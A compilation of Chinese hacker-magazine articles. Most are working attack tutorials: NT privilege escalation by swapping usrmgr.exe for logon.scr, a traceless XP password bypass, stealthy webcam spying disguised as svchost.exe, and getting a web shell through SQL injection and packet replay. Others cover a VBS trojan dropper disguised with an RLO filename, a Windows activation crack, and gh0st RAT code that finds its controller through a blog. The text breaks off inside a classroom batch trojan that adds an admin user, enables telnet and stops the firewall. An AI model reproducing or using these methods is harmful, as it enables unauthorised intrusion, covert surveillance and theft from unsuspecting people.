这里我们采用 Stego 方式执行文件加密隐藏操作。点击“Stego”菜单，可以看到 MediaHider 可以根据宿主图片的类型分别执行数据加密操作。例如点击“Write data to BMP”或者“Write data to JPEG”项，表示针对 BMP 或者 JPEG 宿主图片类型进行操作。这里我们以 JPEG 格式为例进行说明。点击菜单“Stego”→“Write data to JPEG”项，在弹出窗口（如图1）顶部的“Maximum compressed file size”栏中显示可以加密隐藏的文件大小，点击“Browse”按钮，选择目标文件（文件应尽量小，例如在 Excel 中编辑机密信息，之后将其保存为 CSV 格式等）。在“Password”栏中输入密码，之后点击“Start”按钮，MediaHider 即可将机密文件加密隐藏在图片中。

在 MediaHider 主窗口中点击菜单“File”→“Save as”项，将其保存为独立的图片文件，该图片文件和正常文件一样，可以执行浏览等操作。当执行解密时，按照上述方法在 MediaHider 主窗口打开宿主图片，之后点击菜单“Stego”→“Read data from JPEG”项，在解密窗口中输入密码，点击“Start”按钮完成解密操作。之后在“Data file”栏中显示隐藏的文件信息，点击“Save as”按钮，将其导出为独立文件即可。

图1

### 二、Image Processor的使用方法

当初次使用 Image Processor 时，需要在认证窗口中的“Password”栏中输入启动密码（缺省为“critter”），点击“Accept”按钮打开 Image Processor 主窗口。点击菜单“Options”→“Password Change”项，可以修改登录密码。

在窗口右侧的文件管理面板中，选择包含图片的文件夹，在窗口右下角列出其中包含的所有图片文件（只支持 JPG 格式），双击所需的图片文件，即可将其添加到窗口左侧的图片列表中，如图2。当然，您也可以直接从资源管理器拖动图片到 Image Processor 左侧列表中，完成图片添加操作。

如何加密文件呢？在 Image Processor 窗口右侧选择目标文件夹，在窗口右下角显示其中包含的所有文件，双击需要隐藏的文件，将其添加到窗口中部的加密列表中。在窗口左侧选择宿主图片，在加密列表中选择目标文件，在其右键菜单中点击“Encrypt”项，在弹出窗口中输入密码。Image Processor 可以动态监测密码复杂度，之后点击“Accept”按钮，可以将目标文件加密隐藏在图片中。在 Image Processor 窗口中部显示包含机密文件的图片，在其右键菜单中点击“Save Encrypt”项，就可以将其保存为独立图片。按照上述方法，您可以自由地将机密文件分别隐藏在不同图片中。

如何执行解密操作呢？方法很简单，在 Image Processor 窗口右侧选择加密后的图片，如果在窗口中部显示“File is already encoded”字样，表示该图片包含加密信息。双击该图片文件名称，在弹出窗口中输入密码，点击“Accept”按钮完成解密处理。在 Image Processor 窗口中部显示“File/Files have been decrypted”字样，表示解密成功。在解密面板右键菜单中点击“Save Decrypted”项，就可以导出解密后的文件了。

### 三、File Off的使用方法

同其他软件不同，File Off 可以将机密信息隐藏在图片、音频、视频等文件中，因此其适用性更强。使用 File Off 需要激活码，打开网址“http://www.encrypt4all.com/activation-software-file-off.php”，可以得到所需的激活码。

在 File Off 主窗口中点击菜单“Tools”→“Options”项，在设置窗口中的“General”面板中点击“Change”按钮，可以更改默认密码（原始密码为空）。在“Message”面板中的“Message Font”栏中点击选择按钮，可以设置邮件所使用的字体。在“Mail Server”面板中的“SMTP Mail Server”栏中输入 Google 邮箱服务器地址（例如“smtp.google.com”），在“Your Email Login Info”栏中输入您的 Google 邮箱地址和密码信息。

之后点击菜单“File”→“Create New Encrypted Message”项，在窗口中的“Secret Message Subject”栏中输入邮件主题，在“Secret Message Body”栏中输入机密信息内容。在下一步窗口，如果选择“Use my default password”项，表示使用默认密码；也可以选择“Use new password”项来输入新密码。新密码可以随意设置，和默认密码没有任何关系。在下一步窗口中点击“Browse”按钮，选择图片、声音、视频等宿主文件。这里选择图片文件，File Off 即可将该机密信息加密后隐藏在该图片文件中。

之后在 File Off 主窗口中点击“Send Carrier File To”按钮，打开其自带的邮件发送界面，加密后的文件变成了邮件附件。在其中输入收件人地址、邮件主题以及内容，之后点击“Send Now”按钮执行发送操作。当然，您也可以使用其他邮件软件来发送该加密图片。

当接收到加密文件后，在 File Off 主窗口中点击菜单“File”→“Read Encrypted Message”项，选择加密文件，之后输入密码，就可以在信息查看窗口中浏览包含在其中的机密信息了，包括信息主题、机密数据内容、发信人名称以及创建时间等信息。

图2

图3

### 四、OurSecret的使用方法

在 OurSecret 主窗口如图4，左侧的“Step 1: Select a carrier file”栏中点击浏览按钮，选择目标图片文件（实际上 OurSecret 支持任意类型的文件）。之后点击“Add”按钮，在弹出的窗口选择“File”项，表示针对文件加密；在下一步窗口中选择需要加密的文件即可。选择“New Message”项，表示对消息进行加密，在下一步窗口中输入具体文本信息即可。中文的信息标题会以乱码显示，但是不影响使用。按照上述方法，您可以在宿主文件中添加任意数量的文件或者文本数据。最后在“Step3: Password”栏中输入密码，点击“Hide”按钮，在保存窗口中单独保存宿主文件，也可以直接覆盖原始宿主文件。这样机密数据就保存到了宿主文件中，同时又不影响其正常使用。

如何从宿主文件中提取加密数据呢？在 OurSecret 主窗口右侧的“Step 1: Specify a carrier file”栏中点击浏览按钮，选择目标宿主文件，在“Step 2: Enter password”栏中输入密码，点击“Unhide”按钮，即可将保存在其中的加密文件或机密数据提取出来，并将其显示在文件列表中。在列表中双击对应的文件，可以将其保存为独立文件。双击对应的机密消息，在弹出的窗口中可以显示其内容。

图4

（文章中所涉及到的 MediaHider、Image Processor、File Off、OurSecret 已收录在本期光盘中）

## “捡漏穷豆”攻取Admin权限

吴庠

很多企业站点一般都会使用 NT 系统，虽然从某些方面来说也的确如此，不过 NT 也为他们带来了一些企业信息安全危机。

许多人在获取用户账号后发现只是一个普通用户级别，并且计算机设置得很“BT”，那么这个账号就真的无计可施了吗？这里就告诉大家一个很简单的方法来获取 NT Administrator 账号。这个方法其实很早前就出现了，但似乎知道的人却很少，有些也不是十分明白，所以就写出分析方法和大家分享。

首先我们必须是在得到一个普通用户账号前提下来进行处理。接下来把目录转到 c:\winnt\system32 下，找到名为 logon.scr 的文件（当然我们也可以直接搜索）。logon.scr 其实就是 Windows 系统的登录屏幕保护程序，找到后将其改名为 logon.old，也就是把后缀改为 .old 类型。然后找到 usrmgr.exe 这个程序，同样改名为 logon.scr。这个程序比较少提到，网上资料也很少，但在域服务器里就会比较常见。usrmgr.exe 就是域用户管理器，如果你弄到的主机是域控制器，那么 usrmgr.exe 对你来说意义很大。

之后我们需要重启机器。logon.scr 是启动时加载的程序，原因很简单，它是 Windows 操作系统登录屏幕保护程序。重启之前我们已经将其备份，并把 usrmgr.exe 这个程序改为 logon.scr 了。明白了吗？现在重启后启动的便是 usrmgr.exe 而不是 logon.scr 了。现在不会出现原有的登录密码输入界面，而变成用户管理器了。如果成功执行，那么这时我们就有权限把自己加到 Administrator 组里了。最后不要忘记把 logon.old 文件名改回 logon.scr 啊！不然下次重启之后管理员看到就惨了。

现在，我们就可以用 netsvc.exe 来留后门。既然是企业机器，你也可以深入入侵他的内网等等。因为许多机器安全工作和更新都不太及时，这个问题还是有很多存在的，大家在入侵过程中不妨试试。

## 利用PE克隆进入加密XP系统

Free-Rader

相信各位朋友都有经历过一台电脑就摆在你面前，但其却因为被设置了系统密码而无法进入的痛苦吧。用默认管理员账号的空密码进入？很多电脑都没这一漏洞了。用 WINPE 等软件来更改密码？这样就无法改回原密码了，会让机子主人发现的（后果……还不如直接问他要密码~）。

是的，本小菜就在此小露一手，教各位用 WINPE 毫无痕迹地进入有密码的 XP 系统。使得原密码得以保存在备份文件中。当修改完密码并进入系统使用完计算机后，可再次进入 WINPE 将文件还原（因为在 XP 下 SAM 文件被保护了，不可移动），也就是使得系统恢复原密码，这样就达到了既破解了密码而又不留下痕迹的目的了。

好，了解了原理后我把实际的操作步骤说一下。首先，我们需要一个有 WINPE 系统的外接存储设备，U 盘、光盘均可，并在 BIOS 里将其设置为首启动项，使其可以在计算机启动时直接进入 WINPE 系统。然后在 PE 下进入 X:\WINDOWS\system32\config 目录，找到一名为“SAM”的文件，“复制——粘贴”在同一目录下，可得到“复件 SAM”。

在 WINPE 找到 ERD 或者其他的密码修改工具（因为我用的是《X档案》增刊附赠光盘的 WINPE 系统，所以我就以当中的 ERD2003 为例说明），点击“设定 ERD 的目标 WINDOWS”（如图1）。然后选择计算机 WINDOWS 系统所在盘符下的 WINDOWS 目录。注意的是，一定要选择到目录，不可只选择所在盘符就草草了事（如图2）。完事后再从“开始”中找到 ERD，点击“修改目标 WINDOWS 的登录密码”（如图3），按程序提示将系统密码进行修改，重新启动计算机后就可以使用你所设置的密码进入操作系统了。

我先把原理说一下：我们知道，XP 当中是用 X:\WINDOWS\system32\config（“X”为系统所在盘符）下的 SAM 文件存储系统用户的账号信息的，其用户与密码就是存储在这个文件当中。当计算机进入系统时会自动读取当中的用户名信息，并将用户输入的密码加密后与文件中所存储的加密字符串进行对比来确认密码的正误。由此我们可以想到，当我们用 WINPE 中的程序对密码进行修改前，先将 SAM 文件进行备份，使得原密码得以保存在备份文件中。

当我们使用完电脑后还欲将密码改回时，可再次进入 WINPE，依然来到 X:\WINDOWS\system32\config 目录下将 SAM 文件删除，并把“复件 SAM”更名为“SAM”，即将备份的 SAM 文件还原。这样，密码又变回原来机主设置的密码了。

如果是要经常使用这台计算机的话，还可以将 SAM 文件复制到 U 盘上，再在另一台计算机上用 SAMInside 提取其中的密码 Hash 值，对 Hash 进行破解后就可以知道这台电脑操作系统的密码了（具体操作在《X档案》09 年 6 月刊上有介绍，我就不多说了）。

### 限制艾巧“思技”监控器

当您离开自己的电脑后，最讨厌的事情就是别人随意操作本机，这不仅会泄露隐私信息，而且会将您精心配置的系统搞得面目全非。如何才能知道是谁在背后非法使用本机呢？试试 AVMonitor 这款独特的软件吧，它可以将您的摄像头变成电脑隐形监控器，可以对非法使用者进行拍照、录像、抓取桌面图片、监控麦克风信号等操作，让您掌握其非法使用本机的“有力证据”。

1AVMonitor是一款多功能监控软件，提供了监控摄像头、监控桌面、监控麦克风等实用功能，可以将摄像头动态画面、桌面活动画面录制为视频或者捕捉为图片，将从麦克风输入的音频信号录制为声音文件等。而且其提供了隐藏运行功能，能够悄无声息地执行监控操作。这里我们仅分析如何通过摄像头隐蔽监控本电脑的使用情况。在1AVMonitor主窗口（如图1）中点击菜单“Monitor”→“Switch To Profile”项，在分支菜单中勾选“Monitor Webcam and automatically capture activity with the motion detector”项，表示激活摄像头自动监控动态画面功能。

在1AVMonitor主窗口中的“Monitor”面板中点击带有扳手图标的按钮，在监控设置窗口中选择“Sensibility”项，在其右侧拖动滑块，可以设置监控的灵敏度。该值越小，灵敏度越高（如图2）。这样当1AVMonitor通过摄像头捕捉到动态画面后（例如有人坐在本机前操作），就可以将摄像头画面捕捉为图片保存起来，便于您之后查看。如果选择“Only grab image”项，则可以在“Interval”栏中设置捕捉摄像头画面的时间间隔，1AVMonitor可以按照预设周期自动捕获摄像头画面。该方法虽然比较笨，但是可以实现连续捕捉操作。

可以将本机变成视频转播服务器，这样如果本机处于联网状态，您就可以通过远程主机实时监控本机摄像头画面。在其右侧可以更改网络端口（默认为8091）。在“Title”“Username”“Password”栏中可以分别设置视频标题、用户名和登录密码。点击“Test port”按钮，可以检测目标端口是否可用。点击“Customize”按钮，在弹出窗口（如图3）中可以定制视频监控页面属性：在“Video dimension”栏中拖动滑块，可以设置视频分辨率；在“Live shot dimension”栏中拖动滑块，可以设置图片捕捉分辨率大小；在“Color and texts”面板中可以定义不同显示项目的颜色、标题、字体、字体大小、背景图片等参数，这样您可以设计个性化的监控页面。


图1


图2


图3

在监控设置窗口中如果勾选“Port to broadcast”项，表示可以将本机转变成流媒体播放器，便于您通过远程主机使用Windows Media Player等软件直接接收本机摄像头视频画面。在其右侧可以设置端口号（默认为8070）。点击“Encoder”按钮，在弹出窗口（如图4）中的“Name”列表中可以选择视频编码格式，这样可以减小监控视频体积，便于在网络上传输。如果勾选“Keep a copy on hard disk”项，表示允许在本机上保存监控视频文件，在“Interval (New File)”栏中可以设置视频长度（默认为30分钟），这样1AVMonitor可以每隔预设时间将监控内容转成视频文件存放到硬盘上，便于您日后查看。上面分析了捕捉摄像头画面、创建视频转播网站、创建流媒体服务器等方法，都可以让您及时了解摄像头监控内容。实际上，您可以根据需要选择监控方式。例如只是想了解在您离开电脑后，是否有人非法操作本机，使用摄像头画面自动捕捉功能即可，这样可以通过拍摄的使用者面容找到非法使用者。

除了捕捉摄像头动态画面外，1AVMonitor还允许您远程监控摄像头画面。勾选“Publish web site at HTTP port”项，表示可以将本机变成视频转播服务器。

为了让监控操作更加隐蔽，可以在设置窗口中勾选“Start with Windows”项，让1AVMonitor跟随系统自动运行。接着勾选“All user”项，表示针对所有账户生效。勾选“Start Hide and Lock (Stealth)”项，激活隐藏运行模式。

窗口（如图5）中选择“Do not change process information”项，表示使用默认进程信息。选择“Hide process on the Task Manager”项，表示在任务管理器中隐藏1AVMonitor的行踪。选择“Rename to”项，可以在任务管理器中更改本程序显示信息，例如将其设置为“svchost.exe”，这样可以达到瞒天过海的目的，让别人误以为本程序是正常进程，从而巧妙避开别人的察觉。为了进一步提高安全性，在“Type password”栏中可以设置激活密码，在“Hotkey to Show”栏中可以设置激活热键（默认为“Ctrl+Shift+Q”）。这样当本程序进入隐藏运行模式后，必须点击预设热键并输入激活密码后，才可以让本程序“现身”，进而执行各种配置和查看操作。为了避免录制的文件体积过于庞大，可以在设置窗口中的“Auto-delete alert files older than”栏中设置删除期限，默认为自动删除超过10天的监控文件信息。

摄像头监控模式下，在窗口右侧显示摄像头实时画面。当摄像头画面内容出现变化后，1AVMonitor就可以将画面内容捕捉为图片（如图6）。如果同时开启了远程播放功能，在监控栏中的“URL”列中显示远程监控地址，在“Broadcast”列中显示流媒体播放地址。在监控信息列表中显示自动捕获的图片和视频文件信息，双击对应图片，可以查看其内容。捕获的图片和视频默认存放在“C:\Documents and Settings\All Users\Documents\PCWinSoft\1AVM\”路径中。在远程主机上打开监控地址（例如“http://129.8.155.189”，这里的地址为假设），在认证窗口中输入预设用户名和密码，确认后进入监控页面，在其顶部点击“Live Video”链接，可以查看实时监控视频；点击“Real-time Image”链接，可以查看实时捕捉画面；点击“Photo Slide Show”链接，可以显示所有捕捉画面列表；点击“Recordings”链接，可以录制视频文件。也可以在WMP中打开本机流媒体服务器地址（例如“mms://129.8.155.189”），即可接收到实时监控内容。


在1AVMonitor主窗口中点击菜单“View”→“Global Options”项，在弹出窗口中的“Space Occupied”栏中显示监控数据占用的硬盘空间。在“Stop Write to disk when free space is less or equal to”栏中设置硬盘可用空间警戒线，当1AVMonitor所在磁盘可用空间低于该值时即可自动停止监控。在“Storage root folder”栏中点击“Change”按钮，可以更改监控数据存储路径。如果本机有多个地址，在“List of IP addresses”列表中可以选择所需地址；也可以选择“Automatic”项，让1AVMonitor自动选择所需地址。当然，1AVMonitor的功能远不止此，您可以点击工具栏上的“2”“3”“4”“5”等按钮，激活监控桌面活动、录制麦克风音频信息、捕获摄像头画面、捕捉桌面画面等功能，实现更加广泛的监控操作，具体操作都比较简单，这里就不一一赘述了。

接下来试试1AVMonitor的监控功能吧。在1AVMonitor主窗口的“Monitor”面板中点击开始监控按钮，即可让其进入摄像头监控模式，在窗口右侧显示摄像头实时画面。

> （本文所涉及到的1AVMonitor软件已收录到本期光盘中）

## 看菜鸟另类抓包拿Shell

枫叶飘零

由于最近看不惯一些事，于是就想要对不满的对象进行一番检测，于是有了本文。

首先当然是找注入点了，随便找了一个带数据库查询的链接，在后面加上“'”“and 1=1”“and 1=2”都返回空白页面，估计过滤了还是怎么着。不过作为hacker爱好者的我们怎能如此轻易放弃呢？于是就想找找目录看有没有什么可以利用的，不一会儿就在一张图片的链接属性里找到了Ewebeditor编辑器的踪影（如图1）。


Ewebeditor可是个好东西，要是有用户名密码，修改一下上传格式，马上就可以拿到Shell。于是立马按照默认地址打开后台登录地址，令我失望的是后台被管理员删了，看来管理员的安全意识还是挺高的（如图2）。后台被删了，就算下载到默认数据库也没用了。


有了用户名和密码当然是找后台登录了，后台地址在首页就直接给出了链接。顺利登录后台后发现有数据库备份的地方，这样的话只要备份一下上传的图片木马就可以拿到Shell了。可惜的是后台备份路径和数据库名都不可以自定义，翻看了一下源代码发现如图6所示。


以前看过一篇文章说没有后台照样拿Shell，但一时也找不到那篇文章了。重新整理一下思路，既然数字型注入不行的话，字符型的行不行呢？带着这个疑问，我找了一个带字符的链接，分别在后面加上`and '1'=1`和`and '1'=2`，返回了不同页面（如图3、4）。

确定是一个注入点后立马丢到啊D，但啊D检测不出表名，于是我换Pangolin，呵呵，我可是纯正的tools boy啊。Pangolin检测结果如图5。

```html
（操作前请查看服务器是否支持Scripting.FileSystemObject）
<td width="39%" height="86">&nbsp;<b>默认路径:</b></td>
<input name="oldaddr" type="text" class="input3" id="oldaddr" value="data/" size="30" maxlength="30" readonly="true" />
<td width="61%">&nbsp;&nbsp;备份路径</td>
<input name="newaddr" type="text" class="input3" id="newaddr" value="sysBackup_data/" size="40" maxlength="50" />
<sysBackup_data>文件夹</td>
```


然后我把源码本地保存后，修改路径和备份名后提交也失败了。这让我陷入了困境，因为后台除了ewebeditor编辑器外就这个备份可以利用了。随便抓包看看吧，于是用WsockExpert抓包了备份数据库的过程，并且发现了些猫腻（如图7）。


图7


图9

既然包中有路径、文件名等信息，那修改路径成图片木马所在路径，以及把备份的数据库名改为.asp后缀的包后提交可不可以呢？说做就做，把抓到的前两个send包复制到记事本，并且用Uedit32修改包。需要注意的是加上或减去多少个字节，一定要在length那里一一对应，不然可能提交失败（如图8）。


图10


图8


图11

修改保存后用NC提交（如图9），提交后到后台去看，发现已经生成asp木马了（如图10），打开Shell的登录地址，成功拿到Shell（如图11）。

总体上来说这篇文章技术含量不高，只是灵活地利用了一个抓包而已。希望可以给新学习的hacker爱好者一点点思路。

> （本文所涉及的pangolin软件已收录在本期光盘中）

### 刷钻软件，永恒的骗局！

在这个QQ横行的年代里，钻和Q币象征着什么？有钱人呗！刷钻这个话题谈了很久，原本以为大家都能对刷钻骗局免疫了。结果前些日子有读者告诉我说他找到一个真正的刷钻软件，这个消息犹如晴天霹雳，雷到我了……

打开这个软件的界面如图1，做得还真挺“忐忑”，居然还搞了个登录界面，右下角的版权时间让我汗颜……我用它提示的“游客账户”和密码进入了主界面。

登录后的主界面如图2，这个界面着实又雷了我一把，功能这么强大，居然能干掉腾讯的检测程序、防止封号，第一次听说。看来作者真是高手啊。看到这儿一些明白的叉子们肯定笑了，这个程序肯定是钓鱼盗号用的，比起我作为事例编写的那个，这款软件下了不少心思。而且它还提供了QQ，让需要刷钻的用户花钱购买，骗钱又盗号，真是可恶至极！骗了别人，骗不了我们。既然作者这么想要QQ，我就把我的号“送”给他。


图1

在登录框，我填上了自己的QQ号，只不过我把密码填成了“SB250Fuckyou”，这个骗子，我们就玩他一把。

击下“刷Q币”时，弹出的消息窗口彻底把我雷倒了，如图3。我当时是脱机状态，它居然提示说：“连接服务器成功”，实在是强悍啊……


在点击“刷Q币”时，程序明显等待了2秒钟才弹出提示，这很明显是把QQ密码发送给盗号者了。而且刷钻软件这么宝贵的东西怎么可能随随便便发布到网上，而且它下面的说明里说：只要购买程序的用户名和密码，就能送代码。这要真是刷钻软件，源代码还不得卖到上万？这代码不用送我就知道是什么：盗号的！

很多人都在研究用“ADSL密码获取器”来实现刷钻，这种偷用他人宽带账户支付的行为是违法的，也是被真正高手所不齿的。从技术角度看，这不能算是刷钻。不是吹牛，这种垃圾手段你要多少我倒给你多少！

提醒各位读者，就刷钻本身来看，它是违法行为。无论你是用他人宽带也好，用腾讯漏洞也罢，这些都是违法的。网络上存在着大量所谓“刷钻软件”，无一例外都是盗号、骗钱软件。因为真正的刷钻工具，是不可能公布的。

在腾讯早期推出续费业务时，刷Q币、刷钻的漏洞确实存在过。在2005年5月25日，腾讯对已知的刷钻漏洞进行了全面封闭。前段时间，腾讯爆出了1分钱买黄钻的重大漏洞，大量用户钻了这个空子。可到了晚上5点左右，漏洞被堵上了，所有利用这一漏洞购买黄钻的用户，黄钻全部被系统收回了。也就是说：刷钻在现在几乎是不可能实现的。

事后我问了那位读者，他说自己是刚刚才发现这个软件，并且已经使用。贪小便宜的下场往往是哭笑不得。沉溺于黑色经济和雕虫小技的卖弄，是不会有所收获的。与其整天做着刷钻的白日梦，还不如踏踏实实去钻研更为高深的技术。

> （这款虚假的科微刷钻软件已收录在本期光盘中）

### 抓肉鸡之终极伪装

“姜太公钓鱼，愿者上钩”。X友抓鸡，到底能不能抓到，取决于我们的马儿的伪装程度，伪装得越好，上钩的几率就越大。我们不需要什么工具，因为微软已经将一切都为我们准备好了。

首先当然是捆绑了。如果只是一个木马文件，一运行没什么反应，现在的人都那么谨慎，肯定知道是中招了。首先祭出我们的神器——WinRAR（只听扑通一声，倒了一片人）。如果只是利用WinRAR的自解压功能，可能不是很完美。这里给大家准备了一个VBS脚本，代码如下：

```vbscript
dim shell
set shell=CreateObject("Wscript.Shell")
shell.run "cmd /c start %SystemRoot%\system32\test.txt",0
WScript.Sleep 1000
shell.run "cmd /c start %SystemRoot%\system32\1.exe",0
```

大家把第三句的test.txt改成你自己要进行伪装的文件（例如你要伪装一张图片，你就将其改成xxx.bmp），最后一句的1.exe改成你的木马程序。修改完脚本后，选中你要伪装的文件、木马、脚本，右键选择添加到压缩文件。在常规选项卡中选择创建自解压缩格式文件（如图1）。再点击高级选项卡中的自解压选项，弹出一个对话框，在解压路径中填入：`%SystemRoot%\system32`。如果大家这里要修改，脚本里相应的地方也要修改。在“解压后运行”中填入脚本名称，例如我们这里写的run.vbs（如图2）。在模式选项卡中选择全部隐藏。在更新选项卡中填入覆盖所有文件。


图1


图3


图2


图4


图5


图6

在文本和图标选项卡中，在“从文件加载自解压文件图标”上面的浏览按钮选择你要伪装的图标。这里我要伪装成记事本图标。操作系统常用的文件图标，大家可以通过将shell32.dll这个动态链接库导入资源工具中导出。这里我将其导入Restorator中，在图标那一栏中选择你要导出的图标，右键导出，导出为xxx.ico（如图3）。然后一路确定就OK了。

但是大家右键该文件会发现有个“用WinRAR打开”选项，万一受害者选择了此选项就暴露了（如图4）。下面我就要把这个选项去掉。用C32查找修改起来麻烦，这里给大家打包一个工具用来去掉此选项。选择文件，然后点击start就OK了，此时那个选项也消失了（如图5）。

到这里大家感觉已经很完美了，其实不然。捆绑在一起生成的文件后缀为exe（例如我这里是test.exe），有些人可能会说改成test.txt.exe。如果受害者隐藏了文件后缀，当然会显示成test.txt；但是如果对方没有隐藏已知文件后缀，一切就暴露了。露了，前面一切的准备都会前功尽弃的。下面我就把 exe 改成我们的后缀。选中你要修改的文件，重命名修改成格式如下：文件名+伪装的格式+exe 后缀。例如我要将其伪装成 txt 格式的，我这里就命名为 testtxt.exe，将光标移到要伪装的格式前面（我这里移动到 txt 前面），右键选择插入 Unicode 控制符，在二级菜单中选择 RLO 那一行（如图6）。

OK。已经伪装好了，大家快试着去抓自己的肉鸡去吧。

（文章中所涉及的相关工具和录像已收录在本期光盘中）

## 再谈Windows 7的激活

千诚


图1


图4

目前，SC2 正在如火如荼地席卷着全世界，可无奈，配置要求太高：酷睿 i5 的 CPU，512MB 的独显，还有就是 Windows 7 的操作系统！


图2


图5

相信大家早已经对 Windows 7 垂涎已久，可无奈正版的太贵，刷 BIOS 风险太大，优化大师只能延长一年的使用时间！那能不能像以前的 XP 一样轻松又安全地破解呢？当然可以！就是我今天要给大家介绍的 Windows 7 Loader。

不过可惜的是，目前这款软件只支持 VISTA 升 Windows 7 的破解，部分仍在使用 XP 的兄弟们只能麻烦一下了，先把 XP 升到 VISTA 的 SP1，再升 Windows 7。

在升级到 Windows 7 以后右键运行软件，必须得这么做！如图1所示，选择“以管理员身份运行”。然后出现了软件的安装界面，如图2。点击“Install”会出现图3的对话框，点“OK”。


图3


图6

此时窗口会消失，因为它正在后台运行。当出现下面图4的时候，就说明大功告成了。


图7

然后电脑自动重新启动。再右键“我的电脑”属性，就可以看到这张令人振奋的图片了，如图5。

如果还不放心的话，可以 WIN+R 输入“slmgr.vbs -dlv”和“slmgr.vbs -xpr”，就会出现下面图6、7的两个对话框。至此，激活完毕！

（本文所涉及的 Windows 7 Loader 已收录在本期光盘中）


Michael

远控上线分为静态 IP（现在动态 IP 用不上了）、HTTP 上线、域名上线。对于 HTTP 上线大家一般都用 FTP 空间上线，其实不然，HTTP 上线的范围很广，只要该 HTTP 能够提供客户端 IP 即可。今天就和大家说下用博客上线，这里以 gh0st 为例，大家可以举一反三，想一想其他的。秉着知其然知其所以然的精神，我们来看下 gh0st 的上线源码，看完我相信大家就应该会想到如何利用博客上线了。

```c
HINTERNET hNet;
HINTERNET hFile;
hNet = InternetOpen("Mozilla/4.0 (compatible)", INTERNET_OPEN_TYPE_PRECONFIG, NULL, INTERNET_INVALID_PORT_NUMBER, 0);//创建会话

if (hNet == NULL)
    return bRet;

hFile = InternetOpenUrl(hNet, lpURL, NULL, 0, INTERNET_FLAG_PRAGMA_NOCACHE | INTERNET_FLAG_RELOAD, 0);//打开网址、获取句柄
if (hFile == NULL)
    return bRet;

do {
    memset(buffer, 0, sizeof(buffer));
    InternetReadFile(hFile, buffer, sizeof(buffer), &dwBytesRead);//读取文件

    if ((pStart = strstr(buffer, "AAAA")) == NULL)//找到第一次出现AAAA
        continue;
    pStart += 4;
    if ((pEnd = strstr(pStart, "AAAA")) == NULL)//找到第二次出现AAAA
        continue;

    memset(strEncode, 0, sizeof(strEncode));
    memcpy(strEncode, pStart, pEnd - pStart);//两次AAAA之间的字符串

    char * lpDecodeString = MyDecode(strEncode);//解密字符串

    SplitLoginInfo(lpDecodeString,
        lppszHost, lppPort, lppszProxyHost, lppProxyPort,
        lppszProxyUser, lppszProxyPass);//将上线ip、端口等信息分配到各变量中

    bRet = true;
} while (dwBytesRead > 0);

InternetCloseHandle(hFile);
InternetCloseHandle(hNet);

return bRet;
```

看完代码，我相信大家脑中应该有些想法了吧。这是服务端上线时的代码，意思就是去一个指定的网址，在网页中寻找 AAAA。而两次 AAAA 中存放的就是我们的 IP、端口等信息。我们所要做的就是要组建一个形如 AAAA？？？AAAA 的字符串放到博客中去（看到这里，大家应该会想，其实并非一定要博客）。而问号中存放的就是加密的上线信息。


图1

这时大家会想该怎样手工加工该字串呢？有兴趣的叉子可以看看 encode.h 文件（与 0x19 异或，0x86 相加，base64_encode 函数再加密一次）。gh0st 里面已经集成了获得这种带 A 的加密字串（如图1）。

在线 IP 那里面填入你本机的 IP，本机 IP 大家打开命令行提示符输入 ipconfig 就能获得了（如图2）。


端口处填上你要上线的端口，上线字串处就显示出这种加密后的字串。大家去申请个博客，我这里用新浪博客做演示。我这里放到个人简介中了（如图3）。

大家要记住该网页网址，我这里是 http://blog.sina.com.cn/s/profile_1841688333.html。在 build 属性页中将 HTTP 上线网址后面启用签名勾上，填入刚才的网址（如图4）。生成客户端测试，上线成功。

最后有个问题要注意一下，就是你每次 IP 变更的时候，都要用你的新 IP 生成加密字串去你的网站处更换一下。网址中不要有干扰字符 AAAA，否则会解析错误的。


大家可以根据这个原理想一些其他的上线方式，或者去看看其他远控是怎么查找上线信息的，也用博客上线试一试。学习黑客就像学武，注意心法不注重招式。技术是可以学到的，但是思路是很重要的，大家要注重锻炼自己的发散思维。祝大家玩得愉快。

> （文章中所涉及到的软件已收录在光盘中）

## 机房里的Hacking……

昨天上 C 语言课。因为我之前学过 C 语言，而且每次上机课都是那些很简单的数学题，要不就是改错题，所以很快就做完了。而那些之前没学过 C 语言的同学就找我帮忙看看哪又错了什么的。这样来回奔波很麻烦，于是我就想把答案放到老师的共享盘里面去。

我们机房的环境是这样的：老师的电脑上共享了一个 K 盘，K 盘里面有每个机器对应的文件夹，只能指定机器访问，但是 K 盘的根目录是每个人都可读可写的。于是我就把我写好的 C 语言作业的答案放到了 K 盘。需要的同学直接去 K 盘复制对照下就可以知道哪错了，这样就轻松多了，我也又闲下来了。人闲着就想玩点恶作剧。我想利用这样的网络环境实现类似木马的效果。机房不能上网，没有木马下载，咱就利用系统本身 Telnet 自己做一个“木马”！

要实现远程控制，首先就想到了微软提供的 Telnet。要是机房每台电脑都开了 Telnet，我们又有一个管理员的用户名和密码，就可以用 **Telnet [目标IP]** 这个命令很轻松地得到一个 CMD-SHELL。

现在思路有了，就按这个执行下去，先看看 Telnet 服务的默认状态。右键->我的电脑->管理->服务和应用程序->服务，找到 Telnet，状态如图1。


#### 傻瓜黑客

结果被禁用了。不过这个对于叉子们来说是很轻松就可以解决的！在命令提示行下面运行这个命令：**sc config [服务名] start= [状态]**，利用这个命令可以更改 Telnet 服务的启动类型。这里要注意的是，Telnet 的服务名不是 Telnet，而是 tlntsvr。所以完整的命令就是：**sc config tlntsvr start= auto**（注意 start= auto 等号后面有空格！漏掉会导致命令出错，我也是错了好久才发现的）。接下来就是开启 Telnet 服务和建立一个具有管理员权限的用户，命令如下：

```bash
net user kenzo 123 /add //增加一个用户名为kenzo，密码123的用户

net localgroup administrators kenzo /add //把kenzo加入admin组里面，这样就具有了管理员权限

net start telnet //这个是开启telnet服务
```

为了防止对方开防火墙，我们再加了句 **net stop sharedaccess** 关闭 Windows 防火墙服务。最后我的想法是把这几行命令写在一个批处理文件中，然后放入 K 盘，让大家运行。

由于我们在对方运行之后要用 Telnet 连接对方，需要知道他的 IP，所以在后面加入一个记录 IP 的命令：**ipconfig >>k:\kenzo\1.txt**。ipconfig 是查询本机 IP 设置。`>>k:\kenzo\1.txt` 的意思是把 ipconfig 所查到的数据记录在 `k:\kenzo\1.txt` 这个文件中，`>>` 的意思是追加写入。

为了让同学们能自己运行而又不发现我的意图，我使用了“@、echo、cls、pause”这几个命令，命令意思如下：

- @ 是不显示此条命令；
- echo 是显示信息，例如 echo 123，运行之后显示 123；
- cls 是清屏命令；
- pause 是暂停命令。

```bat
@sc config tlntsvr start= auto
@net user kenzo 123 /add
@net localgroup administrators kenzo /add
@net start telnet
@net stop sharedaccess
@ipconfig >>k:\kenzo\1.txt
@cls
@echo C的答案如下：
